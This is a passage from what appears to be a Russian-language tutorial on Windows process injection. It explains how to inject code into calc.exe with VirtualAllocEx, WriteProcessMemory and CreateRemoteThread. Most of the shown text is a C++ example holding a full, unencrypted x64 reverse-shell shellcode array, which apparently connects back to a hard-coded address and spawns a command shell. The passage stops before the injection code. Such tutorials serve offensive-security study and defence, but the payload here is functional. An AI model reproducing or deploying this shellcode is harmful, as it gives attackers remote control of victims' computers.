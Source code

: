 И затем "просим" систему начать выполнение нашего кода в целевом процессе, которым является `calc.exe`.

![injection process 4](./images/6/injection-4.png){width="75%"}

Теперь давайте напишем код для этой простой логики.   
Самая популярная комбинация для выполнения этого - использование встроенных функций Windows API, которые предназначены для целей отладки. Это:   
- [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
- [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
- [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   

Простейший пример:
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);
```